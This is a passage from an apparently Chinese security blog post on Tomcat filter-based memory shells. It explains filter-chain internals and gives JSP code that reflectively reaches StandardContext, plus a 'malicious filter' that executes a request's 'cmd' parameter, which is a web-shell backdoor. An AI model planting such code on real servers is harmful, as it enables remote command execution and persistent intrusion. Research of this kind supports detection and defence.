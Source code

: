   调用了ApplicationFilterFactory#creatFilterChain方法

  ![image-20240628153200124](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240628153200124.png)

  这个函数流程如下

  + 在context中获取 filterMaps，并遍历匹配 url 地址和请求是否匹配
  + 在context 中根据 filterMaps 中的 filterName 查找对应的 filterConfig
  + 获取到 filterConfig，则将其加入到 filterChain 中
  + 继续循环，直至添加所有匹配的filter

  根据上述流程，我们知道要动态注册一个filter我们需要在 StandardContext 中 filterMaps 中添加 FilterMap，在 filterConfigs 中添加 ApplicationFilterConfig

  在ApplicationFilter#addfilter()中，将初始化的filter放入StandardContext的filterDefs中，来看下另外两个参数是如何生成并添加的

  **StandardContext#filterStart()**

  ![屏幕截图 2024-06-28 213052](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202024-06-28%20213052.png)

  **ApplicationFilterRegistration#addMappingForUrlPatterns()**

  ![image-20240628213910446](https://raw.githubusercontent.com/uu2fu3o/blog-picture/master/cloud/image-20240628213910446.png)

  如图添加了filtermap

  至此我们的思路是

  - 获取StandardContext对象
  - 创建恶意Filter
  - 使用FilterDef对Filter进行封装，并添加必要的属性
  - 创建filterMap类，并将路径和Filtername绑定，然后将其添加到filterMaps中
  - 使用ApplicationFilterConfig封装filterDef，然后将其添加到filterConfigs中

  首先获取当前环境中StandardContext的上下文，封装在ApplicationContext方法中

  通过jsp自带的request方法获取到ApplicationContextFaced类，再通过反射获取到封装的StandardContext

  ```jsp
  <%
      //获取ApplicationContextFaced类
      ServletContext servletContext = request.getSession().getServletContext();
      //反射获取StandardContext,首先获取到ApplicationContextFaced类context属性，为类ApplicationContext的一个对象
      Field appContext = servletContext.getClass().getDeclaredField("context");
      appContext.setAccessible(true);
      ApplicationContext applicationContext = (ApplicationContext) appContext.get(servletContext);
      //获取StandardContext
      Field stdContext = applicationContext.getClass().getDeclaredField("context");
      stdContext.setAccessible(true);
      StandardContext standardContext = (StandardContext) stdContext.get(applicationContext);
  %>
  ```

  创建一个恶意filter

  ```jsp
  <%!
      public class TestFilter implements Filter {
  
          @Override
          public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
              String cmd = servletRequest.getParameter("cmd");
              if(cmd != null ){
                  try {
                      Runtime.getRuntime().exec(cmd);
                  } catch (IOException e) {
                      e.printStackTrace();
                  } catch (NullPointerException n) {
                      n.printStackTrace();
  ```
